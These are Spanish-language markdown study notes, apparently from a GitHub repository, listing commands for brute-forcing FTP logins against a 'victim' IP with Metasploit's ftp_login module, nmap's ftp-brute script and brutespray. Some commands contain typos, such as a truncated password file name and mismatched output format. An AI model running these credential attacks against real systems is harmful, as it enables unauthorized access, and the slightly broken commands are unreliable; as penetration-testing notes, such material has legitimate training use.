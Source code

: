 # Pasos FTP

## Fuerza Bruta

### Hacking por fuerza bruta

* De igual manera que usando **metasploit**: ```msfconsole```

  1. Buscamos con: ```search ftp_login``

  2. Utilizamos ese exploit con: ```use auxiliary/scanner/ftp/ftp_login```

  3. Llenamos los parametros de la misma manera que con **SSH** y esperamos:

     <img src="C:\Users\Asus\AppData\Roaming\Typora\typora-user-images\image-20201025180815352.png" alt="image-20201025180815352" style="zoom:25%;" />

* ``nmap: <direccion ip victima> -p <puerto> --script ftp-brute -script-args userdb=users.txt,passdb=passwords.tx``
* Usando **brutespray** necesitamos primero crear un archivo **data.gnmap** con el siguiente comando: ``nmap -sS -p<puerto> <ip victima> -oX data.gnmap``
  Luego, colocamos el siguiente comando: ```brutespray --file data.gnmap -U users.txt -P passwords.txt --threads 5 --host 1 --service ftp```